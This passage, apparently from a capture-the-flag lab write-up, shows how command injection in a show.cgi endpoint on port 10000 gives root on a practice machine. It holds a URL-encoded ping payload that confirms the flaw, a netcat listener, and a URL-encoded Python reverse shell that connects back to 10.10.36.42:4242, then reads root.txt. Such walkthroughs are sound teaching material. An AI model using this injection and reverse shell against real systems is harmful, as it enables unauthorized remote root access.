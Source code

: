 We can try to ping our machine back. Type this in your machine to remain listening for ICMP packets on the `tun0` interface.

```
$ sudo tcpdump -i tun0 icmp
```

Let's send our payload url encoding this command: `ping -c 4 10.10.36.42`

```
http://localhost:10000/file/show.cgi/bin/A|ping%20-c%204%2010.10.36.42|
```

We can confirm the vulnerability by looking at incoming packets. It's time to fully compromise this machine. 

Initialize a netcat listener on port 4242

```
$ nc -lvnp 4242
```

I used a simple Python reverse shell I found on PayloadAllTheThings' cheatsheet.

- [PayloadAllTheThings Python reverse shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) 

As before, you have to url-encode the payload first.

```
http://localhost:10000/file/show.cgi/bin/A|python%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.36.42%22%2C4242))%3Bos.dup2(s.fileno()%2C0)%3Bos.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bpty.spawn(%22%2Fbin%2Fsh%22)%27|
```

Immediately after sending the request we can see the connection to our machine

```
$ nc -lvnp 4242

Connection from 10.10.128.187 43114 received!
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
a4b945830144bdd71908d12d[redacted] 
```